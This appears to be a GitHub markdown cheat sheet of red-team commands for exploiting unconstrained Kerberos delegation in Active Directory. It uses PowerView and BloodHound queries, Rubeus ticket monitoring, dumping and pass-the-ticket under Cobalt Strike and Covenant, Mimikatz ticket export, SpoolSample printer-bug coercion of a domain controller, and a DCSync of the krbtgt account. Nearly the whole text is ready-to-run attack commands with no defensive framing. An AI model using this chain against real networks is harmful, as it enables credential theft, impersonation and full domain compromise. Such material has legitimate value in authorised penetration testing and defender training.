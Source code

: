 ## Powerview
``` powershell
Get-DomainComputer -Unconstrained
```

## BloodHound
``` a
MATCH (c:Computer {unconstraineddelegation:true }) RETURN c
```

## CobaltStrike
``` a
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10
[System.IO.File]::WriteAllBytes("Z:\backup\PTA\CRTE\tgt-sqladmin", [System.Convert]::FromBase64String($a))
```

## Covenant
``` a
Rubeus triage /luid:0x3c6cd2
Rubeus dump /luid:0x3c6cd2 /nowrap
Rubeus monitor /interval:5 /filteruser:[Name of DC]$
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]
ImpersonateProcess 2768
```

## Mimikatz
``` a
privilege::debug sekurlsa::tickets
sekurlsa::tickets /export
kerberos::ptt [filename]
```

## spoolss to DC
``` a
execute-assembly C:\tools\SpoolSample\SpoolSample\bin\Release\Working_SpoolSample.exe [FROM] [TO] 
Assembly /assemblyname:"SpoolSample" /parameters:"CDC01 APPSRV01"
```

* check if running
``` a
PowerShell dir \\cdc01\pipe\spoolss
```

* fix format
``` batch
tr -d '\040\011\012\015'
```

* Covenant
``` a
Rubeus monitor /interval:5 /filteruser:[Name of DC]$
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]
ImpersonateProcess 2768
```

* mimikatz
``` a
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

* Covenant
``` a
DCSync prod\krbtgt
```

* https://github.com/dirkjanm/krbrelayx


